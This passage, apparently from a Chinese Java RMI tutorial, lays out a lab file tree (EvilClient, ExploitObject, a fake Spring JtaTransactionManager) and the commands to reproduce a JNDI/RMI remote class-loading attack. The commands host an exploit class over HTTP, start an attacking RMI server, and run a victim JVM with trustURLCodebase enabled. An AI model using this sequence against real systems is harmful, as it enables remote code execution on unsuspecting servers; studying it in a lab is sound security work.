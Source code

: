 |           Message3.class
|
+---test2
|   |   EvilClientWithJtaTransactionManager.class
|   |   SomeInterface3.class
|   |   spring-tx-4.2.4.RELEASE.jar
|   |   spring-core-4.2.4.RELEASE.jar
|   |   commons-logging-1.2.jar
|   |
|   +---any
|   |       Message3.class
|   |
|   \---org
|       \---springframework
|           \---transaction
|               \---jta
|                       JtaTransactionManager.class (fake版)
|
\---testserverbase
        ExploitObject.class (参《Java RMI入门(3)》)

这是充分必要的最小测试集，如欲复现，除非明确知道背后的机理，请勿乱加乱减文
件。

在testserverbase的父目录执行:

python3 -m http.server -b 192.168.65.23 8080

在test1目录执行:

rmiregistry \
-J-Djava.class.path="spring-tx-4.2.4.RELEASE.jar:spring-core-4.2.4.RELEASE.jar" \
1099

java \
-Djava.naming.factory.initial=com.sun.jndi.rmi.registry.RegistryContextFactory \
-Djava.naming.provider.url=rmi://192.168.65.23:1099 \
EvilServer3 attack http://192.168.65.23:8080/testserverbase/ ExploitObject

java \
-Dcom.sun.jndi.rmi.object.trustURLCodebase=true \
-Dcom.sun.jndi.ldap.object.trustURLCodebase=true \
-cp "spring-tx-4.2.4.RELEASE.jar:spring-core-4.2.4.RELEASE.jar:commons-logging-1.2.jar:spring-beans-4.2.4.RELEASE.jar:javax.transaction-api-1.2.jar:spring-context-4.2.4.RELEASE.jar:." \
-Djava.naming.factory.initial=com.sun.jndi.rmi.registry.RegistryContextFactory \
-Djava.naming.provider.url=rmi://192.168.65.23:1099 \
SomeDynamicServer3 any
